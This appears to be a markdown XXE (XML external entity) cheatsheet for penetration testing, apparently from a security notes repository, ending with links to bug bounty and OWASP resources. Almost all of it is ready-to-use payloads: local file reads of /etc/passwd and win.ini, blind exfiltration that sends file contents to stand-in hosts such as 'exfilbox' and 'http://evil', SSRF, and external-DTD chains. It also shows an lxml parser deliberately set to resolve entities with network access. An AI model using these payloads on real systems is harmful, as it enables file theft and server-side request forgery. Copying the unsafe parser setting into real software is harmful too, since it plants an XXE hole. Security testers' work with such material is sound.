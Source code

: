 ```yaml
---
title: XXE
tags:
  - Cheatsheet
---
```


## Testing

Testing with python:

```
doc = etree.parse(open('/tmp/tmp.xml'), etree.XMLParser(resolve_entities=True,no_network=False))
```

## Payloads

Basic Local File Read

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

Exfiltrate data (e.g., blind)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://exfilbox/?%xxe;">]><foo>&blind;</foo>
```

XXE + SSRF

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

XXE using External DTD

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```

```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

External DTD handling tags:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

```
    <!ENTITY all "%start;%stuff;%end;">
```

## Cheatsheets

* [Bugbounty XXE Cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md)
* [Specific Case Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
* [OWASP XXE Prevention Cheatsheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)
* [OWASP XXE Testing Guide](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))
